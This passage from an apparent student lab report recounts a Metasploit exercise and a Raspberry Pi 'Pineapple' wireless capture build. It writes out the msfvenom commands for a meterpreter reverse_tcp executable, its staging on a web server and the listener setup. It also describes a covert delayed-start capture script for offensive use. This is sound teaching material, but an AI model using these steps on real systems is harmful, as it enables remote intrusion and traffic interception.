  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB4.jpg}
  \caption{Screenshot of msfvenom listing payloads}
  \label{fig:WeidmanCH4PresentationB4}
\end{figure}

Enter {\it msfvenom -l payloads} (Figure \ref{fig:WeidmanCH4PresentationB4}).  Review the possible payloads.  Notice that the payloads are grouped by architecture and platform.  To specify those, arguments of "-a" and "--platform" would be used in the command to generate the \gls{exploit}.  Sometimes this is a critical aspect of changing the payload to work on the targeted system.  In the case of this example, we did not need to change the payload; but, if we did, these would be the arguments that we would begin experimenting with.

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB5.jpg}
  \caption{Screenshot of msfvenom possible payload output formats.}
  \label{fig:WeidmanCH4PresentationB5}
\end{figure}

Enter {\it msfvenom --help-formats} (Figure \ref{fig:WeidmanCH4PresentationB5}).  Review the possible formats. An argument of "-f" will specify which one you wish to choose.

Generate the payload in a way that targets the victim computer while reporting to the listentening computer.  The arguments to the following command will blend properties of both machines.  The pattern is:

{\it msfvenom} \textless target computer specific payload\textgreater \textless listening computer address\textgreater \textless listening computer \gls{port}\textgreater [other arguments]

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB6.jpg}
  \caption{Screenshot of command used to generate an msfvenom payload and store it in a file.}
  \label{fig:WeidmanCH4PresentationB6}
\end{figure}

This was an important point in the tutorial because the example IP addresses were specified in earlier chapters.  Nearly 100 pages in to the book, Weidman stopped referencing some of those differences.  The example we used look like (Figure \ref{fig:WeidmanCH4PresentationB6}):

{\it msfvenom windows/meterpreter/reverse\_tcp LHOST=192.168.56.101 LPORT=12345 -f exe \textgreater chapter4example.exe }

{\it file chapter4example.exe}

This command gives us an opportunity to see the qualities of the file generated.  They should match Weidman's advice of "PE32 \gls{executable} for MS Windows (GUI) Intel 80386 32-bit" or our selection of architecture and platform, if specified.

This command will generate the payload and \gls{pipe} it to a file for later staging and use.  If file is not specified, then Metasploit would simply output the program as gibberish type to the display.

With the target file generated, the tutorial has us stage the file in a directory on Kali for use with Apache web server.  Here there was another small change.  The directory to use became "/var/www/html".  Without that small addition of a subdirectory, the Debian distribution would have prevented file access.  Apparently, this small change took place after publication.  If the file is placed in the "/var/www" subdirectory, with no other changes to that directory, the web server will merely respond with a warning about permissions and deny access to the file.  This is a small point, but an example of the experiments and adaptations that have to take place, sometimes coached by past experience with a variety of systems, that might stifle a beginner in replicating some experiments like these tutorials.  The file is copied and staged for use with commands like (Figure \ref{fig:WeidmanCH4PresentationB7}):

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB7.jpg}
  \caption{Screenshot of copying the \gls{exploit}-carrying file to a web server directory and starting the web server.}
  \label{fig:WeidmanCH4PresentationB7}
\end{figure}

{\it cp chapter4example.exe /var/www/html
service apache2 start }

With the payload generated and staged, we need to prepare a system to listen for its use.  We will listen from our Kali VM.  Start another terminal, and open msfconsole. At the msf\textgreater prompt (Figure \ref{fig:WeidmanCH4PresentationB8}), we enter the following commands (Figure \ref{fig:WeidmanCH4PresentationB9}):

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB8.jpg}
  \caption{Screenshot of Metasploit framework's console splash and "msf prompt."}
  \label{fig:WeidmanCH4PresentationB8}
\end{figure}

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB9.jpg}
  \caption{Screenshot of msfconsole commands to establish a listener for the payload.}
  \label{fig:WeidmanCH4PresentationB9}
\end{figure}

{\it use multi/handler
set PAYLOAD windows/meterpreter/reverse\_tcp
show options
set LHOST  \textless listener IP address\textgreater 192.168.56.101
set LPORT \textless listener \gls{port}\textgreater 12345
\gls{exploit}}

At this point, we should see a message showing that msfconsole has set up a listener.  It will stall and wait until it receives a signal from the payload after it has begun to execute on the targeted machine.

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB10.jpg}
  \caption{Screenshot of warning dialogs on the victim machine notifying the user they are downloading a malicious \gls{executable}. }
  \label{fig:WeidmanCH4PresentationB10}
\end{figure}

On the targeted machine, we use the browser to go to the IP address and directory that holds the file with the \gls{exploit} in it.  http://192.168.56.101/chapter4example.exe.  When I actually did this, of course there were numerous warnings in dialogs from the receiving browser.  The \gls{exploit} that is being sent in this case is plainly marked as an \gls{executable} file.  As a user, I had to select a set of options requiring several choices to get the program on the targeted machine and to start the payload running (Figure \ref{fig:WeidmanCH4PresentationB10}).  It's clear that this is an academic example and that we'd need to add some sophistication to the process in order to simulate a more effective pawning of the target machine.  No user would go along with this.  Yet, we can continue for our example.  When we do, we will see a change in our Kali terminal that's listening for the \gls{exploit}.

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB11.jpg}
  \caption{Screenshot showing ({\it Left }) the meterpreter reverse \gls{shell} being used to navigate the Windows directory of the victim computer.  Also, ({\it Right }) showing the malicious payload as an \gls{executable} in Windows Task Manager. }
  \label{fig:WeidmanCH4PresentationB11}
\end{figure}

With the prompt changed to "meterpreter\textgreater", we can begin to use Windows command line commands to navigate through the system and see what's there  (Figure \ref{fig:WeidmanCH4PresentationB11}).  However, this blend of payload and target system doesn't let us start remote executing code, like activating the calculator or notepad or other executables on the machine.\endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p.18. "Most experiments are highly localized and particularistic. They are almost always conducted in a restricted range of settings, often just one, with a particular version of one type of treatment rather than, say, a sample of all possible versions."}

\section{Pineapple Pi}
Narrative:
An article in 2600 got my attention:  build a Pineapple Pi for less than \$20.  Since these devices were retailing for near \$100, I was interested.  I had seen world-famous hacker Jayson Street walking around with a Pineapple logo on his bag at BSides Nashville 2016.  I had seen a fellow UTC student war driving with a router attached to the top of his car, presumably for a project.  I had heard that IMSI catchers were in use around DEFCON; even though that is a different type of radio monitoring, I felt it spoke to the relevance of wireless traffic interception.  I bought a copy of the magazine and decided to run the experiment as described.

In short, not everything went well.  There was one section of the experiments that were hampered by a technical problem with the WiFi adapter.  It turned out that the first wireless adapter I purchased did not meet the required specifications.  Even though I took care to get the right kind of model by the manufacturer, it turned out that there had been a chipset change.  This meant that the TP-Link TL-WN722N I had purchased was unable to go into "monitor mode."  That was a critical requirement for project success.  I did not discover this deficiency immediately.  I lost several hours over about three evenings while attempting to debug the problem.  Over and over, I would attempt to carefully edit the script that accompanies the hardware as part of the project.  I attempted to carefully step through the commands with aircrack-ng and airomon-ng.  I consulted the man pages and looked at the provided arguments.  I considered that I had misinterpreted glyphs printed in Courier font; was a lowercase L a 1 or an L?  Eventually, despite these dead-ends, I came across many forum postings that described some users being able to use the TL-WN722N with Kali and others not.  It soon became clear that I had not purchased the required v.1.0 of the WiFi adapter.  Instead, I had v.2.1, which did not support monitor mode.  This subtle difference had not been described at the point of purchase.  Instead, I had thought I was being careful and successful by purchasing the product with attention to model number.  The one that I had purchased had, in fact, a completely different form of circuit from Realtek; the original v.1.0 had one that came from Atheros.  In response to this, I purchased a slightly more expensive WiFi adapter, an Alfa, which began to work on the first try.

 Near this change in WiFi adapters, I consulted the details of the aircrack-ng and airomonitor-ng man pages, websites and other technical documentation.  It became apparent that I had been referred to documents that should have alerted me to the potential for these subtle differences in makes; however, I was overwhelmed by the details presented and overlooked the difference.  Since I was consulting a recent reference from a well-known hacker magazine, I had ascribed authority to the tutorial description and simply missed out on the details of the product I chose to buy.  I have no doubt that the article does work with the v.1.0 equipment as described; again, it was my lack of attention to detail and a general failure of sellers to provide detail that led me to mistakenly purchase the wrong item.  Part of the reason why I mention these setbacks is because it was generally advertised that the experiment could be conducted for less than \$20.  Well, my actual execution of the experiment involved some slightly different equipment, plus additional supporting equipment that was on hand.  A quick review of the required equipment list needed to perform my run of experiments shows that "for less than\$20" is not a strictly accurate claim.  All in, I would suggest that these difficulties are common; I don't feel that anything was misrepresented; these are just the normal difficulties of conducting computer experiments in the marketplace today.

Also, I have begun to realize that, having never used a Pineapple WiFi device at the time of the lab, there were features available and commonly expected in the commercial versions which would not be present in the homemade tutorial version discussed here.  In the tutorial versions, we can see that what is available is a passive packet-capturing device that can be scripted to operate "headless" upon single-user startup.  This would allow the device to automatically scan networks and capture traffic, as we will see.  In the commercial versions of Pineapple, we see the potential for out-of-the-box frame injection, MITM attacks, and more.  (Kitchen, Kinn and Morse,  pp. 10-12 and p.36)  The passive packet-capturing script we will review would have to be modified to show traits like masquerade, replay, modification of messages, or denial of service, to step up from passive to active attacks.  (Stallings  pp.9-16)  Meanwhile, there have been some suggestions that, like the airodump-ng and airmon-ng commands we will use, many of the options in the commercial version of the Pineapple may be available as programs in free or open source code.  (Reddit Owned).

These things aside, let's review some of the details of the experimental run with particular attention to the necessary \gls{operating system}, directories, scripts, and some performance samples.

I began with a blank card, straight from the manufacturer's package, for local storage on the Raspberry Pi.  I outfitted it with the closest available version of the Raspberrian Lite \gls{operating system}.  "Jesse" was recommended in the article, but I saw only "Stretch" available online.  I used "Stretch."  I did notice, when typing on my USB keyboard, that the mapping diverted to UK.

This was apparent when I saw the familiar " marks on SHIFT + 2, where I expected an @.  Also, SHIFT + 3 gave a £
(U+00A3) instead of a \#.  This led me back into the setup and \gls{configuration} routine for the Pi using a command line program, raspi-config.  I worked through those dialogues and set up my computer for use in my area with the equipment on hand.

In an attempt to keep in line with the tutorial, I did attempt to download the prerequisite files as stated.  After a failed attempt to install one of the files from tar as directed, I realized that it, too, was available through apt-get install.  Thus, I used commands:

sudo apt-get -y install libssl-dev libnl-3-dev libnl-genl-3-dev ethtool rfkill
sudo apt-get install aircrack-ng
sudo airodump-ng-oui-update

I monitored those downloads; they proceeded normally, without major difficulty.  In a few moments, I was ready to continue with the tutorial.

As outlined in the tutorial from 2600, I did create directories for /opt and /DaCaps.  I assigned 777 permissions to them; although, I would suggest that this type of practice can have severe consequences in some applications.  Normally, I would prefer to use a lower combination of permissions; but, I followed the tutorial and continued as directed.

As I conducted my variations of the experiment, I later added a directory /historyDaCaps that I used with some copying routines in order to retain, instead of discard, past capture attempts.  Given those directories, I worked on an otherwise unchanged basic Raspberry Pi 3.

It was at this point I began to turn on the Pi, type in my scripts, and attempt to use the provided script from the tutorial.  As I mentioned earlier, I had one WiFi adapter that would not work because it could not attain monitor mode.  Another worked right away.  Since having the correct features in the WiFi transceiver is an important part of making the project work, let's look at the difference in the two responses when we use the two kinds of adapters with a working copy of the script.

I modified the script from the tutorial, and experimented for several hours over a few nights.  While I will probably add and continue to develop the script, let's go over a working version that I have on hand.

The script has a few phases.  Originally designed for use in a headless \gls{configuration}, I felt that operators would need some reassurance as they started.  If something were to go wrong during the deployment of such a device during an offensive operation, then the risk to the offensive op would be high.  Perhaps the impact would be catastrophic.  So, to give the operator a chance to see that the device and its scripts were up and working, I installed a long delay at the beginning.  My idea was that the device would be powered up, reviewed with a keyboard and monitor, and then the script started.  The device would then sleep for a long enough time to allow for penetration of a target area; then, it would begin scanning and capturing packets.

There, too, there would be delays.  Since I felt that it was unlikely that a scan would go right the first time, loops were set up to allow for repetitive instances of network survey followed by packet capture.  Those durations are also configurable by variable value.  During benchtop testing, I compressed the duration of all of these loops so that the whole script would run in about five minutes.  Thankfully, this choice paid off; I had many development runs of the script.  As with many other things in life, actual use of Pineapple Pi would need to be supported by a significant amount of testing and rehearsal.

First, the program opens with the declaration of a few variables.  We set values for counter controlled loops, directories and frequently used filenames, and wireless LAN interfaces.  The duration of the loops are also set.  When the filenames are constructed, they will have a set of datetime numerals attached to them, separated by underscores.  I came up with a format that would better show which file was recorded when, in groups of survey and packet-capture organized by file creation time.  As the number of files grew, it became obvious, when working in terminal, that I wanted an easy-to-type set of filenames that could be used without a GUI.  I needed some tinkering to come up with the correct syntax for date printing and the arithmetic of loop control in the script.  While there are many acceptable variations of those marks; for some reason, I was having a hard time getting the script to accept the summing of the counter.  Most of the combinations I expected to work were not working; I found one that did, and then I drove on.

